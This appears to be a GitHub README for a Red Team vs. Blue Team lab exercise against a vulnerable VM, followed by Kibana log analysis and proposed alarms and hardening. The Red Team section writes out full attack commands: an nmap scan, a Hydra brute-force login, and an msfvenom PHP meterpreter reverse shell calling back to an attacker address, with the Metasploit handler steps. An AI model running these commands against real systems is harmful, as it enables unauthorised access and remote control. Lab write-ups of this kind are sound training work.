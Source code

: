 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![1a](https://user-images.githubusercontent.com/92223941/167281275-93a49077-e4fd-49b8-abb8-5996739eb5d8.PNG)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

![image](https://user-images.githubusercontent.com/92223941/167281335-956344b0-fdd2-4bee-af89-ebb9f989ae2c.png)

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

![Hydra password](https://user-images.githubusercontent.com/92223941/167281384-6f05f062-0e78-4dce-ad56-1fad9ec91fe1.PNG)

-	I then logged into the secret folder and found a personal note in it.

![image](https://user-images.githubusercontent.com/92223941/167281416-4ab1c2f6-beef-43a8-808b-4bbf5874493d.png)

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.

![ryan password](https://user-images.githubusercontent.com/92223941/167281434-8f81988d-a4f1-4695-b83e-bb06cc285285.PNG)

-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

![msfvenom](https://user-images.githubusercontent.com/92223941/167281455-8e01b643-d192-4939-8992-b3dca42cdc39.PNG)

-	I then uploaded the shell into the webdav directory.

![image](https://user-images.githubusercontent.com/92223941/167281502-8d68b727-b8e0-49b1-8bdf-87dc7e35cabb.png)

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

![snip 2](https://user-images.githubusercontent.com/92223941/167281556-7176de74-2fec-4aad-81e9-ae500111a626.PNG)

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.

![6](https://user-images.githubusercontent.com/92223941/167281652-3aa24019-0640-4643-a46b-da75072434c6.PNG)
![7](https://user-images.githubusercontent.com/92223941/167281666-b48aaa30-140d-463c-8287-3653eb305899.PNG)



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
